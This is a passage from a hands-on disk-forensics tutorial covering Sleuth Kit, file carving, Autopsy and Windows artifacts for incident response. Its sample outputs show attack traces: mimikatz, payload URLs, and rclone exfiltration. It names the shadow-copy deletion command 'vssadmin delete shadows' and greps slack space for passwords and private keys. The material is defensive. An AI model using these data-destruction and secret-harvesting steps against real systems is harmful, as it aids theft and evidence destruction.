ext4magic /dev/sdb1 -a $(date -d "2027-01-11 00:00" +%s) -f home/user -r -d /cases/recovered
```

### XFS, Btrfs, APFS

| FS | Key forensic point |
|---|---|
| **XFS** | Default on RHEL/CentOS. B+tree metadata, no undelete support in most tools; `xfs_db` for low-level work; carving is often the only recovery path. |
| **Btrfs** | Copy-on-write: **old versions of data persist** until rebalanced. Snapshots (`btrfs subvolume list`) are a goldmine — an attacker who edited a file may have left the original in a snapshot. |
| **APFS** | macOS. Copy-on-write, native encryption (FileVault), snapshots (`tmutil listlocalsnapshots`), and clone files that share extents. Sparse/clone semantics mean "file size" and "space used" diverge wildly. |

**Blue team usage:** on Btrfs/APFS/ZFS hosts, take and preserve a snapshot *first* during IR — it is a consistent, free forensic copy of the file system state at the moment of detection, and it costs seconds.

---

## Part 6: What Deletion Actually Does — and When Recovery Fails

Deletion, on every mainstream file system, is a bookkeeping change:

```mermaid
sequenceDiagram
    participant U as User or malware
    participant OS as OS
    participant MD as Metadata (MFT/inode)
    participant BM as Allocation bitmap
    participant D as Data clusters
    U->>OS: DeleteFile evil.exe
    OS->>MD: Clear in-use flag in MFT record
    OS->>MD: Remove entry from parent I30 index
    OS->>BM: Mark file clusters as free
    Note over D: Data clusters are NOT touched
    Note over MD: Record contents remain until reused
    Note over BM: Free is not erased; content persists
```

That leaves three recovery paths, in decreasing order of quality:

| Path | Precondition | Recovers | Tool |
|---|---|---|---|
| **Metadata-based (undelete)** | MFT record / inode not yet reused | Full file, correct name, correct size, all timestamps | `icat`, `tsk_recover`, Autopsy "Deleted Files" |
| **Carving** | Content clusters not yet overwritten | File content only — **no name, no timestamps**, size guessed from header/footer | `foremost`, `scalpel`, `photorec`, `bulk_extractor` |
| **Fragment / slack** | Only part survives | Strings, partial documents, keys | `blkls` + `strings`, `bulk_extractor` |

### Slack space, precisely

Two distinct kinds, often conflated:

- **RAM slack (file slack proper):** the bytes between end-of-file and end-of-*sector*. Modern Windows zero-fills this, so it is largely a historical artifact.
- **Drive/cluster slack:** the sectors between end-of-file-sector and end-of-*cluster*. These are **not** zeroed. They contain whatever the previous occupant of those sectors left. A 4 KB cluster holding a 600-byte file has ~3.4 KB of someone else's data in it.

```bash
# Extract all slack space on the volume for keyword hunting
blkls -o 1026047 -s evidence.dd > volume_slack.raw
strings -n 8 volume_slack.raw | grep -iE 'password|BEGIN RSA|@corp\.local' | sort -u | head
```

### The SSD problem

On an SSD with **TRIM** enabled, the OS tells the drive "these LBAs are no longer needed" on delete. The drive's garbage collector then erases those NAND pages *autonomously*, without any further OS involvement. Subsequent reads of those LBAs return zeros (deterministic-zero TRIM) or unspecified data. This happens in seconds to minutes and **cannot be undone**, even with a write blocker attached — the drive does it internally.

Practical consequences you must state in every report involving SSDs:

- **Deleted-file recovery on a TRIMmed SSD is usually impossible.** Absence of recovered deleted files is *not* evidence that nothing was deleted.
- **Wear levelling** means the physical NAND may hold older copies of data at LBAs the host cannot address. Chip-off / vendor-level acquisition can sometimes reach it; standard imaging cannot.
- **Over-provisioning** (7–28% of NAND invisible to the host) is similarly unreachable.
- TRIM is **not** issued in some paths: over most USB bridges historically (no UNMAP passthrough), inside some RAID configurations, on some encrypted volumes, and when the file system is mounted without `discard` and `fstrim` has not run yet. So *sometimes* you do get data back — test, do not assume.

| Medium | Deleted-file recovery outlook | What to write in the report |
|---|---|---|
| HDD | Good; often excellent | Standard recovery applies |
| SSD, TRIM active | Poor to none for deleted content | "Recovery of deleted content is not expected on this medium due to TRIM" |
| SSD via USB bridge | Sometimes good | Note the interface; test with a known-deleted file |
| eMMC/UFS (phones) | Varies; often TRIM-like | Note chipset behaviour |
| Encrypted volume (unlocked) | As underlying medium | Note key availability |

**Do not skip this paragraph in real reports.** Opposing counsel asking "you found no deleted files, so nothing was deleted, correct?" is answered by the TRIM explanation and by `$UsnJrnl` / `$I30` slack evidence that names files whose content is gone.

---

## Part 7: The Sleuth Kit From Scratch

**What it is:** The Sleuth Kit (TSK) is an open-source C library plus a set of command-line tools for reading disk images and file systems at each of the five layers, without mounting them and without trusting the host OS's drivers. Brian Carrier maintains it; Autopsy is the GUI built on top of it. If you learn one forensic toolset, learn this one — it is scriptable, it is on every forensic distro, and it is the reference implementation that GUI findings get validated against.

**Why it exists:** mounting evidence with the host OS means the host OS's file system driver interprets the data — and may replay a journal, update timestamps, hide files, or refuse to show corrupted structures. TSK parses the bytes itself, read-only, showing you deleted entries, orphans, and slack that a mount will never reveal.

### Install

```bash
# Kali / Debian / Ubuntu
sudo apt update && sudo apt install -y sleuthkit libewf-dev ewf-tools

# Fedora / RHEL
sudo dnf install -y sleuthkit libewf-tools

# macOS
brew install sleuthkit libewf

# Verify
fls -V
mmls -V
```

```
The Sleuth Kit ver 4.12.1
```

### Naming convention — the tool names are a map

Every tool name is `<layer-prefix><action>`:

| Prefix | Layer | Tools |
|---|---|---|
| `mm` | **M**edia **M**anagement (volume) | `mmls`, `mmstat`, `mmcat` |
| `fs` | **F**ile **S**ystem | `fsstat` |
| `f`  | **F**ile name | `fls`, `ffind` |
| `i`  | **I**node / metadata | `ils`, `istat`, `icat`, `ifind` |
| `blk`| **Bl**oc**k** / data unit | `blkls`, `blkcat`, `blkstat`, `blkcalc` |
| `j`  | **J**ournal | `jls`, `jcat` |
| `img`| **Im**a**g**e | `img_stat`, `img_cat` |

### Universal flags

| Flag | Meaning | Notes |
|---|---|---|
| `-o N` | Volume starts at sector N | Take N from `mmls`; **the most common source of error** |
| `-i TYPE` | Image type: `raw`, `ewf`, `aff` | Usually auto-detected; force it if detection fails |
| `-f TYPE` | FS type: `ntfs`, `fat32`, `ext4`, `hfs`, `apfs` | Force when `fsstat` misidentifies |
| `-r` | Recurse into directories | `fls`, `tsk_recover` |
| `-d` / `-u` | Deleted only / undeleted only | `fls`, `ils` |
| `-p` | Full paths | `fls` — always use it for greppable output |
| `-m PATH` | Output in mactime **body file** format, prefixing PATH | The basis of timelining |
| `-a` | All (including allocated) | `ils -a`, `blkls -a` |
| `-s` | Slack only | `blkls -s` |
| `-e` | Every block (allocated + unallocated) | `blkls -e` |

### `img_stat` and E01 handling

TSK reads E01 natively when built with libewf. If a segmented image (`.E01`, `.E02`, …) is not auto-joined, pass all segments:

```bash
img_stat evidence.E01
fls -o 1026047 evidence.E01                  # works directly
fls -o 1026047 -i ewf evidence.E01 evidence.E02 evidence.E03    # explicit segments
```

```
IMAGE FILE INFORMATION
--------------------------------------------
Image Type: ewf
Size in bytes: 32212254720
MD5 hash of data: 9f2c1b04d1d1e3e4b1af5a2c9d33e1b0
```

### The workflow, tool by tool

**1. `mmls` — what partitions exist** (covered in Part 1).

**2. `fsstat` — what kind of file system, and its parameters**

```bash
fsstat -o 1026047 evidence.dd
```

```
FILE SYSTEM INFORMATION
--------------------------------------------
File System Type: NTFS
Volume Serial Number: 8A3C41F29D07B65E
OEM Name: NTFS
Version: Windows XP

METADATA INFORMATION
--------------------------------------------
First Cluster of MFT: 786432
First Cluster of MFT Mirror: 2
Size of MFT Entries: 1024 bytes
Range: 0 - 274687

CONTENT INFORMATION
--------------------------------------------
Sector Size: 512
Cluster Size: 4096
Total Cluster Range: 0 - 7735062
Total Sector Range: 0 - 61888510
```

What to actually take from this: **cluster size 4096** (governs slack), **MFT entry size 1024**, **Range 0 – 274687** (there are 274,688 MFT entries — the upper bound for inode numbers you can query), and the **volume serial**, which you will cross-reference against registry `MountedDevices` and USB artifacts.

**3. `fls` — list names, including deleted ones**

```bash
fls -o 1026047 evidence.dd                    # root directory only
fls -o 1026047 -r -p evidence.dd | head -20   # recursive, full paths
fls -o 1026047 -r -p -d evidence.dd           # DELETED entries only
```

```
r/r 4512-128-3:  Users/jsmith/Documents/quarterly_report.docx
d/d 3811-144-5:  Users/jsmith/Downloads
-/r * 8823-128-4:        Users/Public/svch0st.exe
-/r * 9104-128-4:        Users/jsmith/Downloads/mimikatz.exe
d/- * 9210-144-6:        Users/jsmith/AppData/Local/Temp/x
```

Decode the prefix — this is the single most useful piece of `fls` syntax:

| Token | Meaning |
|---|---|
| `r/r` | File type per **name layer** / per **metadata layer**, both "regular" |
| `d/d` | Directory in both layers |
| `-/r` | Name layer says unknown (entry deleted), metadata says regular file |
| `d/-` | Name says directory, metadata is **gone/reallocated** — recovery unlikely |
| `*` | **Deleted** |
| `4512-128-3` | inode 4512, attribute type 128 (`$DATA`), attribute ID 3 |

A `-/r *` line is the best possible deleted-file result: the metadata still exists, so `icat` will recover the file intact. A `d/- *` line means the metadata is gone; only carving remains.

**4. `istat` — full metadata for one entry** (shown in Part 3).

**5. `icat` — extract content by inode**

```bash
icat -o 1026047 evidence.dd 9104 > /cases/exp/mimikatz.exe
file /cases/exp/mimikatz.exe
sha256sum /cases/exp/mimikatz.exe
```

```
/cases/exp/mimikatz.exe: PE32+ executable (console) x86-64, for MS Windows
1a4b9c... (compare against known-hash sets / VirusTotal by hash only)
```

`icat -r` attempts recovery of deleted content; `icat -s` includes slack. Use the full `inode-type-id` form to grab a specific attribute (an ADS).

**6. `ils` — list metadata entries, including orphans**

```bash
ils -o 1026047 evidence.dd            # deleted (unallocated) metadata entries only, by default
ils -o 1026047 -a evidence.dd | head  # all
```

**7. `ifind` / `ffind` — reverse lookups**

```bash
ifind -o 1026047 -d 90212 evidence.dd      # which inode owns data unit 90212?
ffind -o 1026047 evidence.dd 4512          # which name(s) point to inode 4512?
ifind -o 1026047 -n "Users/jsmith/Downloads/mimikatz.exe" evidence.dd
```

`ifind -d` is how you answer "I found a keyword hit at byte offset X in unallocated space — does it belong to any file?" The workflow is: byte offset → data unit (`blkcalc`) → inode (`ifind -d`) → name (`ffind`).

**8. `blkcat`, `blkls`, `blkstat`, `blkcalc` — the data unit layer**

```bash
blkstat -o 1026047 evidence.dd 90212        # is this cluster allocated?
blkcat -o 1026047 evidence.dd 90212 | xxd | head
blkls  -o 1026047 evidence.dd > unallocated.raw   # ALL unallocated clusters, concatenated
blkls  -o 1026047 -s evidence.dd > slack.raw      # slack space only
blkcalc -o 1026047 -u 4471 evidence.dd            # map unallocated-image unit -> original image unit
```

`blkcalc` deserves a sentence because it is the piece people miss: after you carve `unallocated.raw`, any offset you find is an offset *into that extracted blob*, not into the disk. `blkcalc -u` translates it back so you can state the finding in terms of the original evidence.

**9. `tsk_recover` — bulk export**

```bash
tsk_recover -o 1026047 evidence.dd /cases/recovered_deleted        # deleted files (default)
tsk_recover -o 1026047 -a evidence.dd /cases/recovered_allocated   # allocated files too
tsk_recover -o 1026047 -e evidence.dd /cases/recovered_everything  # everything
```

**10. `jls` / `jcat` — the journal (ext3/ext4)**

```bash
jls  -o 2048 linux.dd | head          # list journal blocks
jcat -o 2048 linux.dd 1421 | xxd | head
```



---

## Part 8: File Carving

**What carving is:** recovering files from raw bytes using *content* signatures alone, ignoring the file system entirely. It is what you do when the metadata is gone. Because there is no metadata, carved files have **no original name, no path, no timestamps** — a fact you must state whenever you present a carved artifact.

**How it works:** most formats have a distinctive **header** (magic bytes) and many have a **footer**. A carver scans for headers, then either reads until the footer, until a maximum size, or uses format-aware parsing to determine length.

| Format | Header (hex) | Footer (hex) | Notes |
|---|---|---|---|
| JPEG | `FF D8 FF E0/E1/DB` | `FF D9` | Very carvable; EXIF inside |
| PNG | `89 50 4E 47 0D 0A 1A 0A` | `49 45 4E 44 AE 42 60 82` | IEND is reliable |
| GIF | `47 49 46 38 37/39 61` | `00 3B` | |
| PDF | `25 50 44 46` (`%PDF`) | `25 25 45 4F 46` (`%%EOF`) | Multiple EOFs if incrementally saved |
| ZIP / DOCX / XLSX / PPTX / JAR / APK | `50 4B 03 04` | `50 4B 05 06` (EOCD) | Office 2007+ is ZIP — carve as ZIP, then inspect |
| OLE (DOC/XLS/PPT and MSI) | `D0 CF 11 E0 A1 B1 1A E1` | none | Fixed-size sectors |
| PE (EXE/DLL) | `4D 5A` (`MZ`) + `PE\0\0` | none | Length from PE headers |
| ELF | `7F 45 4C 46` | none | Length from section headers |
| SQLite | `53 51 4C 69 74 65 20 66 6F 72 6D 61 74 20 33 00` | none | Browser history, phone DBs |
| EVTX | `45 6C 66 46 69 6C 65 00` (`ElfFile`) | none | Windows event logs |
| Registry hive | `72 65 67 66` (`regf`) | none | Carve hives from unallocated |
| RAR | `52 61 72 21 1A 07` | none | |
| 7z | `37 7A BC AF 27 1C` | none | |

**The fundamental limit — fragmentation.** Carvers assume the file is contiguous. If a 4 MB PDF was written in three fragments, header-to-footer carving produces a corrupt file containing someone else's data in the middle. Roughly 5–10% of files on a typical used volume are fragmented, but the rate is far higher for large files, files edited in place, and files on a nearly-full volume. Modern carvers (`photorec`, and research tools using SmartCarving) do better; plain `foremost` does not.

### `foremost` — from scratch

**What it is:** a header/footer carver originally written by US Air Force OSI, still the fastest way to sweep an image for common formats.

```bash
sudo apt install -y foremost
foremost -V
```

```bash
# Carve from the unallocated blob (recommended: avoids re-finding allocated files)
foremost -t jpg,pdf,doc,docx,zip,exe -i unallocated.raw -o /cases/carve_foremost
```

| Flag | Meaning |
|---|---|
| `-t` | Comma-separated types, or `all` |
| `-i` | Input image |
| `-o` | Output dir (**must not exist or must be empty**) |
| `-c` | Alternate config file (`/etc/foremost.conf`) — add custom signatures here |
| `-q` | Quick mode: only check sector boundaries (much faster, misses embedded files) |
| `-a` | Write all headers, no error detection |
| `-v` | Verbose |

```
Foremost version 1.5.7 by Jesse Kornblum, Kris Kendall, and Nick Mikus
Processing: unallocated.raw
|foundat=RxD.pdf
*|
Finish: Mon Mar  2 12:41:09 2027

12 FILES EXTRACTED

jpg:= 7
pdf:= 3
zip:= 2
```

`foremost` writes an `audit.txt` recording every carved file with its **byte offset in the input** — keep it; that offset is what you feed to `blkcalc` to map back to the original image.

Custom signature in `/etc/foremost.conf`:

```
#  extension  case  size    header
   evtx       y     8000000 \x45\x6c\x66\x46\x69\x6c\x65\x00
```

### `scalpel` — configurable and faster

A fork of foremost focused on performance; **all** signatures live in `/etc/scalpel/scalpel.conf` and are commented out by default (a classic first-run gotcha — running it unedited carves nothing).

```bash
sudo apt install -y scalpel
sudo sed -i 's/^#\(\s*jpg\)/\1/' /etc/scalpel/scalpel.conf     # uncomment jpg lines
scalpel -c /etc/scalpel/scalpel.conf -o /cases/carve_scalpel unallocated.raw
```

### `photorec` — the best general-purpose carver

Part of the TestDisk package, **format-aware** rather than purely header/footer, supports 480+ formats, and handles some fragmentation. Interactive by default but fully scriptable.

```bash
sudo apt install -y testdisk
photorec /log /d /cases/carve_photorec /cmd evidence.dd partition_2,fileopt,everything,enable,search
```

| Token | Meaning |
|---|---|
| `/log` | Write `photorec.log` |
| `/d DIR` | Output directory |
| `/cmd IMG ...` | Non-interactive command string |
| `partition_2` | Operate on partition 2 |
| `fileopt,everything,enable` | Enable all file types |
| `search` | Start carving |

### `bulk_extractor` — features, not files

**What it is:** a completely different philosophy. Instead of reconstructing files, it scans every byte of the image (including compressed and encoded content, recursively) for **features**: email addresses, URLs, credit card numbers with Luhn validation, IP addresses, EXIF, domain names, telephone numbers, Windows PE headers, and more. It ignores the file system entirely, so it works on corrupt images, memory dumps, and swap.

```bash
sudo apt install -y bulk-extractor
bulk_extractor -o /cases/be_out -e all evidence.dd
```

| Flag | Meaning |
|---|---|
| `-o DIR` | Output directory (must not exist) |
| `-e SCANNER` | Enable scanner (`all`, `net`, `wordlist`, `exif`, `hiberfile`) |
| `-x SCANNER` | Disable scanner |
| `-S ssn_mode=1` | Tune scanner settings |
| `-j N` | Threads |

```
$ ls /cases/be_out
aes_keys.txt      domain.txt        email.txt         ether.txt
exif.txt          ip.txt            json.txt          report.xml
telephone.txt     url.txt           url_searches.txt  windirs.txt
zip.txt

$ head -3 /cases/be_out/url.txt
1004265472  http://198.51.100.24/a.ps1
1004265618  http://198.51.100.24/rc.exe
2891043840  https://drive.example.net/upload?id=8812
```

The first column is the **byte offset in the image** — feed it to `blkcalc`/`ifind` to attribute the hit to a file. `aes_keys.txt` is worth noting: `bulk_extractor` can recover AES key schedules from memory images and hibernation files, which is occasionally how an encrypted volume gets opened.

**CTF relevance:** `bulk_extractor -e all` on a challenge image, then `grep -i flag` across the feature files, solves a surprising number of forensics challenges in one step.

---

## Part 9: Autopsy From Scratch

**What it is:** Autopsy is the open-source GUI and case-management platform built on The Sleuth Kit, maintained by Basis Technology. It gives you multi-source case management, an ingest pipeline of analysis modules, indexed keyword search (Solr), a timeline viewer, hash-set matching, and reporting — all of which you would otherwise script by hand around TSK.

**Why use it when you know the CLI:** three reasons that matter in real casework. (1) **Indexed search** — Solr full-text indexing across every file including document interiors, which `grep` cannot match at scale. (2) **Correlation** — the Central Repository links artifacts across cases (this hash, this device ID, this email seen in an earlier case). (3) **Reporting and repeatability** — HTML/Excel reports with tagged evidence that a non-technical reader can follow, and a case file another examiner can open.

**Why not to use it exclusively:** it is an interpretation layer. When a finding matters, validate it at the CLI. "Autopsy said so" is not a defensible answer to "how do you know?"

### Install

Autopsy is Java-based; on Windows the installer bundles everything. On Linux it needs TSK's Java bindings.

```bash
# Linux (Autopsy 4.x)
sudo apt install -y openjdk-17-jdk testdisk sleuthkit
wget https://github.com/sleuthkit/autopsy/releases/download/autopsy-4.21.0/autopsy-4.21.0.zip
unzip autopsy-4.21.0.zip && cd autopsy-4.21.0
sh unix_setup.sh
./bin/autopsy
```

On Windows: install the `.msi`, and install the optional **Autopsy Third-Party Modules** and the **Solr** server if you want multi-user cases.

### Case creation workflow

1. **New Case** → case name, base directory, case number, examiner name. Autopsy creates a directory with `Export/`, `Reports/`, `ModuleOutput/` and a SQLite `autopsy.db`. Put this on your case volume, never on the evidence volume.
2. **Add Data Source** → choose type:

| Data source type | Use for |
|---|---|
| Disk Image or VM File | `.dd`, `.E01`, `.vmdk`, `.vhd`, `.raw` |
| Local Disk | Live/attached device — **only through a write blocker** |
| Logical Files | A folder of already-extracted files (triage collections) |
| Unallocated Space Image File | A `blkls` output blob |
| XRY / Cellebrite reports | Mobile extractions |

3. **Configure Ingest Modules** — the step that decides how long ingest takes and what you get.

| Ingest module | What it does | Cost | Notes |
|---|---|---|---|
| Recent Activity | Parses browser history, registry (via RegRipper), installed programs, USB devices | Low | Always enable |
| Hash Lookup | Matches file hashes against NSRL and your known-bad sets | Low–med | Import NSRL to suppress ~40% of files as "known good" |
| File Type Identification | Signature-based type ID (not extension) | Low | Enables extension-mismatch detection |
| Extension Mismatch Detector | Flags `.jpg` that is really a PE | Low | High-signal, low-noise |
| Embedded File Extractor | Unpacks ZIP/Office/archives so contents are searchable | Medium | Enable, or you will miss files inside documents |
| Keyword Search | Solr indexing + regex/literal lists | **High** | The long pole; consider running it second-pass |
| Email Parser | PST/OST/MBOX to messages | Medium | |
| Encryption Detection | Entropy-based flag for encrypted/packed files | Low | Finds packed malware and containers |
| Interesting Files Identifier | Rule-based (paths, names) hits | Low | Customise per case |
| PhotoRec Carver | Carves unallocated | Medium–high | Duplicates CLI carving; pick one |
| Plaso | Runs log2timeline for a super timeline | Very high | Prefer running plaso separately |
| Android/iOS Analyzer | Mobile artifacts | Medium | |
| Data Source Integrity | Verifies E01 hash on ingest | Low | **Always enable** — proves your image was intact at analysis time |

**Practical ingest strategy for a 500 GB image:** first pass with everything *except* Keyword Search and Plaso — you get triage results in an hour instead of a day. Then launch keyword search as a second ingest run while you work the first-pass findings.

4. **Analyse.** The tree on the left is where the value is:

- **Data Sources** — raw file system browsing (this is `fls`).
- **Views → Deleted Files / File Types / File Size** — deleted-file recovery without typing `icat`.
- **Results → Extracted Content** — Web History, Web Downloads, USB Device Attached, Installed Programs, Recycle Bin, Run Programs (Prefetch), Operating System Information.
- **Results → Keyword Hits**, **Hashset Hits**, **Interesting Items**, **Encryption Detected**, **Extension Mismatch Detected**.
- **Tags** — tag every item you will cite; tags drive the report.
- **Timeline** (the clock icon) — visual MACB timeline with filtering.

5. **Report** → Generate Report → HTML / Excel / KML / CASE-UCO, scoped to "Tagged Results" for a clean deliverable.

### Autopsy CLI / automation

For repeatable pipelines, Autopsy supports headless runs on Windows:

```
autopsy64.exe --nosplash --runFromCommandLine=true ^
  --inputPath=E:\evidence\case42.E01 ^
  --caseDir=D:\cases\case42 ^
  --caseName=CASE-42
```

**A validation habit worth building:** for any finding you will put in a report, reproduce it once at the CLI. If Autopsy shows a deleted `mimikatz.exe` at MFT 9104, run `istat -o 1026047 evidence.dd 9104` and `icat ... 9104 | sha256sum` and paste both into your notes. That is the difference between "the tool told me" and "I verified it."

---

## Part 10: The Windows Artifact Map

The file system tells you what exists. **Artifacts** tell you what a human did. This is where disk forensics stops being plumbing and starts answering questions. Extract these with `icat`/`tsk_recover` from the image, then parse with dedicated tools.

### Registry hives

| Hive | On-disk path | What it answers |
|---|---|---|
| `SYSTEM` | `Windows/System32/config/SYSTEM` | Services, drivers, **USB devices**, computer name, timezone, mounted devices, ShimCache |
| `SOFTWARE` | `Windows/System32/config/SOFTWARE` | Installed apps, OS version/install date, network profiles, autoruns |
| `SAM` | `Windows/System32/config/SAM` | Local accounts, RIDs, last logon, password-change times |
| `SECURITY` | `Windows/System32/config/SECURITY` | LSA secrets, cached domain policy |
| `NTUSER.DAT` | `Users/<user>/NTUSER.DAT` | **Per-user**: RunMRU, TypedPaths, UserAssist, RecentDocs, WordWheelQuery |
| `UsrClass.dat` | `Users/<user>/AppData/Local/Microsoft/Windows/UsrClass.dat` | **Shellbags** (the important ones), file associations |
| `Amcache.hve` | `Windows/AppCompat/Programs/Amcache.hve` | **Executed/present binaries with SHA-1 hashes** and first-seen times |

```bash
# Extract hives from the image
for f in SYSTEM SOFTWARE SAM SECURITY; do
  INODE=$(ifind -o 1026047 -n "/Windows/System32/config/$f" evidence.dd)
  icat -o 1026047 evidence.dd $INODE > /cases/hives/$f
done

# Parse with RegRipper (perl-based, one plugin per artifact)
sudo apt install -y regripper
rip.pl -r /cases/hives/SYSTEM -f system > /cases/out/system.txt
rip.pl -r /cases/hives/NTUSER.DAT -p userassist > /cases/out/userassist.txt
rip.pl -r /cases/hives/SYSTEM -p usbstor
```

```
usbstor v.20180819
(System) Get USBStor key info

USBStor
Disk&Ven_SanDisk&Prod_Cruzer_Blade&Rev_1.00 [2027-01-11 21:58:14Z]
  S/N: 4C530001260113118353 [2027-01-11 21:58:14Z]
    FriendlyName  : SanDisk Cruzer Blade USB Device
    ParentIdPrefix:
```

Modern alternatives: **`regipy`** (Python) and Eric Zimmerman's **`RECmd`/`Registry Explorer`** (Windows, transaction-log aware). A crucial detail: registry hives have **transaction logs** (`.LOG1`, `.LOG2`) holding not-yet-committed changes. Tools that ignore them show you a stale hive. `RECmd` and `regipy` replay them; older tools do not — extract the `.LOG` files alongside every hive.

### Execution artifacts — the "did this run?" stack

No single artifact proves execution. You build confidence by stacking them.

| Artifact | Path | Proves | Retention |
|---|---|---|---|
| **Prefetch** | `Windows/Prefetch/NAME-HASH.pf` | **Execution**, run count, last 8 run times, loaded files/dirs | 1024 files (Win8+); disabled on many SSD/server builds |
| **Amcache** | `Windows/AppCompat/Programs/Amcache.hve` | Presence + **SHA-1** + PE metadata + first-seen | Long |
| **ShimCache (AppCompatCache)** | `SYSTEM\CurrentControlSet\Control\Session Manager\AppCompatCache` | **Presence** (not necessarily execution) + file's SI modified time + path | 1024 entries; **written to disk only at shutdown** |
| **UserAssist** | `NTUSER.DAT\...\Explorer\UserAssist` | **GUI-launched** programs, run count, last run, focus time | ROT13-encoded names |
| **SRUM** | `Windows/System32/sru/SRUDB.dat` | **Per-process network bytes sent/received**, per user | ~30–60 days |
| **BAM/DAM** | `SYSTEM\...\Services\bam\State\UserSettings\<SID>` | Last execution time per binary per user | Win10 1709+ |
| **Jump Lists** | `Users/<u>/AppData/Roaming/Microsoft/Windows/Recent/*Destinations` | Files opened per application | |
| **RunMRU / TypedPaths** | `NTUSER.DAT` | Commands typed into Run box; paths typed into Explorer | |

**SRUM deserves emphasis**: it is an ESE database recording, per process and per user, bytes sent and received over each network interface, in hourly buckets, for weeks. In an exfiltration case where the C2 logs are gone, SRUM showing `7zG.exe` and then a 4.2 GB upload from `rclone.exe` at 02:14 is often the strongest available evidence of data theft volume.

```bash
# Parse SRUM (Mark Baggett's srum-dump, or ESE tooling)
python3 srum_dump.py -i /cases/ext/SRUDB.dat -r /cases/hives/SOFTWARE -o /cases/out/srum.xlsx

# Prefetch (Eric Zimmerman PECmd)
PECmd.exe -d C:\cases\ext\Prefetch --csv C:\cases\out
```

```
Executable name: RCLONE.EXE
Hash: 9A1B2C3D
Run count: 4
Last run: 2027-01-11 22:31:07
Other run times: 2027-01-11 22:19:52, 2027-01-11 22:04:44, 2027-01-11 21:59:31
Volume information: \VOLUME{01d8-3c2a}  Serial: 8A3C41F2  Created: 2026-08-02
Directories referenced: 27
Files referenced: 112
  \VOLUME{...}\USERS\PUBLIC\RCLONE.EXE
  \VOLUME{...}\USERS\JSMITH\APPDATA\ROAMING\RCLONE\RCLONE.CONF
```

That Prefetch file alone gives you: the tool ran four times, the exact times, where it lived, and — from the referenced files — that it used a config in the user's roaming profile, which you should now go and extract.

### File and folder access artifacts

| Artifact | Path | What it proves |
|---|---|---|
| **LNK files** | `Users/<u>/AppData/Roaming/Microsoft/Windows/Recent/*.lnk` | A file was **opened**; embeds target path, size, MAC times, **volume serial**, and sometimes the source machine's MAC address |
| **Shellbags** | `UsrClass.dat` (`BagMRU`/`Bags`) | A **folder was browsed in Explorer** — including folders on removable or network drives that no longer exist |
| **Recycle Bin** | `$Recycle.Bin/<SID>/$I…` + `$R…` | `$I` = original path + deletion time + size; `$R` = the content |
| **Thumbcache** | `Users/<u>/AppData/Local/Microsoft/Windows/Explorer/thumbcache_*.db` | Thumbnails of images **that no longer exist** |
| **WordWheelQuery** | `NTUSER.DAT` | Terms typed into Explorer search |

**Shellbags are the classic "prove they knew it existed" artifact:** a shellbag entry for `E:\payroll\2027\confidential` proves that user browsed that folder in Explorer, even if the E: drive was a USB stick that left the building. Parse with `SBECmd.exe` or `shellbags.py`.

### Windows Event Logs

`Windows/System32/winevt/Logs/*.evtx`. Extract them all; parse with `evtx_dump` / `python-evtx` / Chainsaw / Hayabusa.

| Log | Event IDs that matter |
|---|---|
| Security | 4624 (logon, check **Logon Type**), 4625 (fail), 4634/4647 (logoff), 4648 (explicit creds), 4672 (special privs), 4688 (process creation **with command line if enabled**), 4720/4732 (account/group changes), 1102 (**log cleared**) |
| System | 7045 (**service installed** — PsExec/Cobalt Strike), 7034/7036, 104 (log cleared) |
| PowerShell/Operational | 4103 (module logging), **4104 (script block logging — full deobfuscated script)** |
| Sysmon/Operational | 1 (process create + hashes), 3 (network), 7 (image load), 8 (CreateRemoteThread), 11 (file create), 13 (registry), 22 (DNS) |
| TerminalServices | 21/25 (RDP session logon/reconnect), 1149 (RDP auth succeeded) |
| Windows Defender | 1116/1117 (detection/action) |
| TaskScheduler | 106 (task registered), 200/201 (action started/completed) |

```bash
sudo apt install -y python3-evtx
evtx_dump.py /cases/ext/Security.evtx | grep -A3 '<EventID>4688' | head -40

# Or Chainsaw with Sigma rules across the whole log directory
chainsaw hunt /cases/ext/winevt/Logs -s /opt/sigma/rules --mapping /opt/chainsaw/mappings/sigma-event-logs-all.yml
```

**Logon Type is the field novices skip** — 2 = interactive (at keyboard), 3 = network (SMB/share), 4 = batch, 5 = service, 7 = unlock, 8 = network cleartext, **9 = NewCredentials (`runas /netonly` — classic pass-the-hash indicator)**, **10 = RemoteInteractive (RDP)**, 11 = cached interactive.

### Browser artifacts

| Browser | Path | Format |
|---|---|---|
| Chrome/Edge | `Users/<u>/AppData/Local/Google/Chrome/User Data/Default/` | SQLite: `History`, `Cookies`, `Login Data`, `Web Data`, `Bookmarks` (JSON) |
| Firefox | `Users/<u>/AppData/Roaming/Mozilla/Firefox/Profiles/<p>/` | SQLite: `places.sqlite`, `cookies.sqlite`, `formhistory.sqlite` |
| IE/Legacy Edge | `Users/<u>/AppData/Local/Microsoft/Windows/WebCache/WebCacheV01.dat` | ESE database |

```bash
sqlite3 /cases/ext/History "SELECT datetime(last_visit_time/1000000-11644473600,'unixepoch'), url, title FROM urls ORDER BY last_visit_time DESC LIMIT 10;"
```

That `/1000000-11644473600` is the conversion from **Chrome/WebKit time** (microseconds since 1601-01-01) to Unix epoch. Time formats you will meet:

| Format | Epoch | Units | Seen in |
|---|---|---|---|
| Windows FILETIME | 1601-01-01 | 100 ns | NTFS, registry, EVTX |
| Chrome/WebKit | 1601-01-01 | 1 microsecond | Chrome SQLite |
| Unix epoch | 1970-01-01 | 1 s | Linux, Firefox (microseconds in places.sqlite) |
| Cocoa/Mac absolute | 2001-01-01 | 1 s | macOS/iOS plists |
| FAT DOS time | 1980-01-01 | 2 s, **local** | FAT/exFAT |
| OLE Automation date | 1899-12-30 | days (float) | Office metadata |

**Getting an epoch wrong shifts your entire timeline by decades and is a very common beginner error.** Convert once, in one script, and sanity-check against a file whose time you know.

### Deleted-but-not-gone: hiberfil, pagefile, VSS

| Source | Path | Value |
|---|---|---|
| `hiberfil.sys` | `C:\hiberfil.sys` | Compressed RAM image — process memory, keys, cleartext. Convert with `hibr2bin`/Volatility. |
| `pagefile.sys` / `swapfile.sys` | `C:\` | Paged-out memory fragments; `strings` + `bulk_extractor` |
| **Volume Shadow Copies** | `System Volume Information\{GUID}` | **Point-in-time snapshots of the whole volume** — often contain the file *before* the attacker modified or deleted it |

VSS is frequently the win. If the host had shadow copies and the attacker did not run `vssadmin delete shadows`, you may have a complete pre-incident copy of the file system.

```bash
# Mount an image and expose shadow copies (libvshadow)
sudo apt install -y libvshadow-utils
vshadowinfo -o $((1026047*512)) evidence.dd
vshadowmount -o $((1026047*512)) evidence.dd /mnt/vss
ls /mnt/vss                       # vss1 vss2 vss3
